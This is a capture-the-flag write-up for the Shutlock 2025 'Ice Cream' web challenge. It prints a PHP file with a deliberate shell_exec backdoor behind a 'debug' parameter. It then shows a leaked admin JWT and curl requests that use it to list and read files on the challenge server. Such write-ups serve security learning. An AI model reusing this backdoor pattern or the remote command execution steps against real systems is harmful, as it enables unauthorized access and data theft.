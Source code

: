 # Ice Cream - Shutlock 2025

> Bienvenue dans le challenge Ice Cream !
>
> Tu dois trouver l’ingrédient secret des glaces de "PAPI glace", le plus grand vendeur de glace de tout Cannes.

![alt text](images/shutlock2025_icecream_home.png)

## playing around

`/?dir=&file=secret`

![alt text](images/shutlock2025_icecream_project.png)

## `admin.php` content

```php
<?php
$canExecute = false;
$secret = trim(file_get_contents('jwt_secret.txt'));

$adminToken = trim(file_get_contents('role.txt'));

function base64url_encode($data) {
    return rtrim(strtr(base64_encode($data), '+/', '-_'), '=');
}

function base64url_decode($data) {
    return base64_decode(strtr($data, '-_', '+/'));
}

function verify_jwt_hs256($jwt, $secret) {
    $parts = explode('.', $jwt);
    if (count($parts) !== 3) return false;

    list($header_b64, $payload_b64, $sig_b64) = $parts;
    $expected_sig = base64url_encode(hash_hmac('sha256', "$header_b64.$payload_b64", $secret, true));

    if (!hash_equals($expected_sig, $sig_b64)) return false;

    return json_decode(base64url_decode($payload_b64), true);
}

function is_admin($jwt, $secret, $adminRole) {
    $payload = verify_jwt_hs256($jwt, $secret);
    if (!$payload) return false;
    return isset($payload['role']) && strtoupper(trim($payload['role'])) === strtoupper(trim($adminRole));
}

if (isset($_COOKIE['auth'])){
    if (is_admin($_COOKIE['auth'], $secret, $adminToken)) {


    $canExecute = true;
    }
}

if (!$canExecute) {
    $header = base64url_encode(json_encode(['alg' => 'HS256', 'typ' => 'JWT']));
    $payload = base64url_encode(json_encode(['role' => 'simple-utilisateur']));
    $signature = base64url_encode(hash_hmac('sha256', "$header.$payload", $secret, true));

    $jwt = "$header.$payload.$signature";

    setcookie('auth', $jwt, time() + 3600, "/");
    $_COOKIE['auth'] = $jwt;
}

if ($_SERVER['REQUEST_METHOD'] === 'GET' && isset($_GET['debug'])) {
    if (!$canExecute) {
        echo "<p>Tu ne peux pas executer de commandes avec debug tant que tu n'es pas authentifié en tant qu'admin</p>";
        exit;
    }

    $cmd = $_GET['debug'];
    $output = shell_exec($cmd);
    echo "<pre>$output</pre>";
    exit;
}
?>
```

by reading the code, we can either generate or own JWT token with content from `jwt_secret.txt` and `role.txt`.

we also know that running `/?debug=` will execute the command in the parameter `debug` if we are authenticated as an admin.

## grabing the token

remember the project directory before ? there was an `admin.txt` file that we could not read due to verifications, well we can actually go to `/admin.txt` and we'll get the content of the file.

```
eyJhbGciOiAiSFMyNTYiLCAidHlwIjogIkpXVCJ9.eyJyb2xlIjogIlBBUEktSkUtU1VJUy1VTi1BRE1JTiJ9.EoXe8aAMjtu1gitwv1qWMRI2hszN_tdkZO5K9F-3Kes
```

## running commands

we can now try to `ls` all the files in the project directory by running `ls -la ./*`

```bash
$ curl 'http://57.128.112.118:12233/?debug=ls%20-la%20./*' \
  -b 'auth=eyJhbGciOiAiSFMyNTYiLCAidHlwIjogIkpXVCJ9.eyJyb2xlIjogIlBBUEktSkUtU1VJUy1VTi1BRE1JTiJ9.EoXe8aAMjtu1gitwv1qWMRI2hszN_tdkZO5K9F-3Kes'

-rw-r--r-- 1 root root  1844 Jun 22 14:49 ./admin.php
-rw-r--r-- 1 root root   129 May 29 10:39 ./admin.txt
-rw-r--r-- 1 root root  1980 May 29 10:39 ./auth.php
-rw-r--r-- 1 root root 12289 May 29 10:39 ./flavors.db
-rw-r--r-- 1 root root  3597 Jun 21 19:34 ./index.php
-rw-r--r-- 1 root root     8 May 29 10:39 ./jwt_secret.txt
-rw-r--r-- 1 root root    21 Jun 21 19:34 ./role.txt
-rw-r--r-- 1 root root  2925 May 29 10:39 ./styles.css

./ingredients:
total 28
drwxr-xr-x 2 root     root     4096 May 29 10:39 .
drwxrwxrwt 1 www-data www-data 4096 Jun 22 14:50 ..
-rw-r--r-- 1 root     root      112 May 29 10:39 chocolat
-rw-r--r-- 1 root     root       91 May 29 10:39 lait
-rw-r--r-- 1 root     root      122 May 29 10:39 secret
-rw-r--r-- 1 root     root       29 May 29 10:39 sucre
-rw-r--r-- 1 root     root       48 May 29 10:39 vanille

./secrets:
total 16
drwxr-xr-x 2 root     root     4096 May 29 10:39 .
drwxrwxrwt 1 www-data www-data 4096 Jun 22 14:50 ..
-rw-r--r-- 1 root     root       21 May 29 10:39 .recette_de_papi
-rw-r--r-- 1 root     root      126 May 29 10:39 ingrédient secret
```

looks like `secrets` directory contains an `.recette_de_papi` file that was hidden from us before, we can read it by running `cat secrets/.recette_de_papi`.

```bash
$ curl 'http://57.128.112.118:12233/?debug=cat%20secrets/.recette_de_papi' \
  -b 'auth=eyJhbGciOiAiSFMyNTYiLCAidHlwIjogIkpXVCJ9.eyJyb2xlIjogIlBBUEktSkUtU1VJUy1VTi1BRE1JTiJ9.EoXe8aAMjtu1gitwv1qWMRI2hszN_tdkZO5K9F-3Kes'

SHLK{Ic3_Cr3am_L0v3r}
```

there we go, we got the flag!
